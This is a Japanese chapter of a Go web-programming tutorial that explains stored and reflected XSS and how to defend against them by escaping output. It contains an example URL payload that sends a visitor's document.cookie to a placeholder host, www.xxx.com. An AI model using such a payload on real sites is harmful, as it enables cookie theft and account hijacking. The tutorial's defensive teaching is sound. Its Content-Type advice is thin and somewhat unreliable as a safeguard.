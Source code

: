 # 9.3 XSS攻撃の回避
インターネット技術の発展に伴って、現在のWebアプリケーションはどれも大量の動的なコンテンツを含ませることでユーザビリティを高めています。いわゆる動的なコンテンツとは、アプリケーション・プログラムがユーザの環境とユーザのリクエストに従って対応するコンテンツを出力することをいいます。動的なホームページは"クロスサイトスクリプティング攻撃（Cross Site Scripting, セキュリティ専門家は通常これを省略してXSSと呼びます）"の脅威を受ける可能性があります。性的なホームページは完全にこの影響を受けません。

## XSSとは何か
XSS攻撃：クロスサイトスクリプティング(Cross-Site Scripting)。カスケーディングスタイルシート(Cascading Style Sheets, CSS)の省略と混同しないようにクロスサイトスクリプティングはXSSと省略されます。XSSはよく見かけるセキュリティホールの一種です。これは攻撃者が悪意のあるコードを他のユーザが使用しているページに埋め込むことを許してしまいます。多くの攻撃(一般には攻撃者と被害者のみに影響します)とは異なりXSSは第三者に及びます。すなわち、攻撃者、クライアントとWebアプリケーションです。XSSの攻撃目標はクライアントに保存されたcookieの奪取またはクライアントの身分を識別する慎重に扱うべき情報を使う他のページです。一旦合法的なユーザの情報が取得されると、攻撃者は合法的なユーザを装ってページに対してやりとりを行うことができるようになります。

XSSは通常２つに大別することができます：ひとつは保存型XSSで、主にユーザにデータを入力させ、他にこのページを閲覧しているユーザが閲覧できる場所で出くわします。掲示板、コメント欄、ブログや各種フォーム等です。アプリケーションプログラムはデータベースからデータを検索し、画面に表示させます。攻撃者は関連する画面で悪意のあるスクリプトデータを入力したあと、ユーザがこのページを閲覧したときに攻撃をうけます。このプロセスを簡単にご説明すると：悪意あるユーザのHtmlがWebアプリケーションに入力->データベースに入る->Webアプリケーション->ユーザのブラウザ。もう一つはリフレクション型XSSです。主な方法はスクリプトコードをURLアドレスのリクエストパラメータに追加することです。リクエストパラメータがプログラムに入ると、ページに直接出力され、ユーザがこのような悪意あるリンクをクリックすることで攻撃を受けます。

現在のXSSの主な手段と目的は以下のとおり：

- cookieを盗み、慎重に扱うべき情報を取得する。
- Flashを埋め込むことで、crossdomainの権限設定により高い権限を取得する。またはJava等を利用して似たような操作を行う。
- iframe、frame、XMLHttpRequestまたは上のFlashといった方法を利用して、（被害者の）ユーザの身分にある管理操作を実行する。またはマイクロブログを送信したり、フレンドを追加したり、プライベートなメールを送信したりといった通常の操作を実行する。少し前に新浪微博はXSSに遭遇しました。
- 攻撃可能なゾーンを利用してその他のゾーンの信任の機能を受ける。信任を受けたソースの身分で通常は許されていない操作をリクエストする。例えば不当な投票活動等。
- PVが非常に大きいページでのXSSは小型のページを攻撃し、DDoS攻撃の効果を実現することができる。

## XSSの原理
Webアプリケーションはユーザが送信したリクエストのデータに対し十分な検査およびフィルタリングを行なっていないと、ユーザが送信するデータにHTMLコードを許してしまい（主に">"、"<"）、エスケープされていない悪意あるコードを第三者であるユーザのブラウザ上で解釈/実行させてしまいます。これがXSSセキュリティホールを生み出す原因となっています。

以下ではリフレクション型XSSを例にXSSのプロセスをご説明します：パラメータによってユーザの名前を出力するページがあるとします。例えばurl：`http://127.0.0.1/?name=astaxie`にアクセスすると、ブラウザでは以下のような情報を出力します：

	hello astaxie

もし我々が`http://127.0.0.1/?name=&#60;script&#62;alert(&#39;astaxie,xss&#39;)&#60;/script&#62;`のようなurlを送信した場合、ブラウザがダイアログを表示することに気づくでしょう。これはつまり、ページにXSSセキュリティホールが存在することを示しています。では悪意あるユーザはどのようにしてCookieを盗み出すのでしょうか？上と同じように、`http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;`というurlでは、現在のcookieが指定されたページ、www.xxx.comに送信されます。このようなURLは一目見て問題があるとわかると思われるかもしれません。いったい誰がクリックするのかと。そうです。このようなURLは人に疑われがちです。しかしURL短縮サービスを使ってこれを短縮した場合、あなたは気づくことができるでしょうか？攻撃者は短縮されたurlをなんらかの経路で広め、真相を知らないユーザが一旦このようなurlをクリックすることで、対応するcookieデータがあらかじめ設定されたページに送信されてしまいます。このようにユーザのcookie情報を盗んだあとは、Websleuthといったツールを使うことでこのユーザのアカウントを盗み出すことができるか検査されてしまいます。

XSSに関するより詳しい分析は"[新浪微博XSS事件分析](http://www.rising.com.cn/newsletter/news/2011-08-18/9621.html)"と呼ばれる記事を参考にしてください。

## どのようにしてXSSを予防するか
答えは簡単です。ユーザのいかなる入力も決して信用せず、入力に含まれるすべての特殊文字をフィルタリングするのです。このようにすれば大部分のXSS攻撃を根絶することができます。

現在XSSの防御では主に以下のいくつかの方法があります：

- 特殊文字のフィルタリング

	XSSを避ける方法の一つは主にユーザが提供するコンテンツに対してフィルタリングを行うことです。Go言語ではHTMLのフィルタリング関数を提供しています：

	text/templateパッケージのHTMLEscapeString、JSEscapeStringといった関数です。

- HTTPヘッダに指定した型を使用する

	`w.Header().Set("Content-Type","text/javascript")`

	このようにすることでブラウザにhtmlを出力させずjavascriptコードを解釈させることができます。


## 概要
XSSセキュリティホールはとても危険なものです。Webアプリケーションを開発している時、必ずデータをフィルタリングするよう肝に銘じておいてください。特にクライアントに出力する前に。これは現在のところXSSを防止する手段として有効です。

## links
   * [目次](<preface.md>)
   * 前へ: [入力フィルタリングの確保](<09.2.md>)
   * 次へ: [SQLインジェクションの回避](<09.4.md>)
